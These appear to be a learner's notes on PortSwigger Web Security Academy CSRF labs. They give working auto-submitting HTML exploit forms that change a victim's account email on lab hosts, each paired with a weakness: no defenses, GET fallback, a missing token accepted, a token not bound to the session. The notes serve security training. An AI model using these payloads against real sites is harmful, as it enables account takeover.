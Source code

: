 Requirement for csrf

	• Relevant action
	• Cookie based session handling
	• No unpredictable request parameters 

Can be automated using  burpesuite pro edition 



```
<form method="POST" action="https://0a39003e04cac15b80985df6004b00b0.web-security-academy.net/my-account/change-email">
	 <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> 
<script> 
	document.forms[0].submit();
 </script>
```

From <https://portswigger.net/web-security/csrf/lab-no-defenses> 


```
<form method="POST" action="https://0a39003e04cac15b80985df6004b00b0.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="viet@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```
**CSRF where token validation depends on request method**




Intercept we notice a csrf token
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c04ead97-a67a-46ac-9cec-52adef46971d)


Remove csrf token we get a response that we need to change it
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6c89d56c-5b43-4c9b-a612-d9268239279b)



Changine request to get and removing email change we can send it and get a 302 response
"Follow redirection" we notice that we changed the email without a csrf token
```
<form action="https://0a05007c04bf708c81e28a7200120078.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="viet2@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```

**CSRF where token validation depends on token being present**

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/1b0c0949-c707-4f48-ab19-527524cf985e)


Deleting csrf parameter result in the 302 response 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/771e5618-9d4d-4112-af7c-a90bee8ca4e2)


Exploit: 
```
<form method="POST" action="https://0aa1003d040b2b3f81817a48001f00f2.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="vi@gmail.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

**CSRF where token is not tied to user session**

Cant changed email when removing csrf token
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7f8f8bc7-fb21-49e1-98a5-c9e787f3e597)

Cant change to get request either to change email
See if csrf token is tied to user session
Check by logging into another user account and copying there csrf token 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b26f4b63-6f22-490f-aee2-e96c485aae5c)

 



Replacing the csrf parmeter we get a 302 response 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/16b7e052-d04d-40c3-a6b2-b7a3357a4789)



CSRF token is used every time we changed an account so if we want to change another one we need another csrf token 
Our exploit:
```
<html>
    <body>
    <script> history.pushState(' ',' ', '/')</script>
    <form action="https://0a08004803a6fb1a8040b860005c004f.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="vffasf@gmail.com"/>
        <input type="hidden" name="csrf"  value="aIOCt2aXj52tiS7BFW5EVCy8k7UG8siS" />
        <input type="submit" value="submit request"/>
    </form>
    <script>
        document.forms[0].submit();
    </script>
    </body>
</html>
```























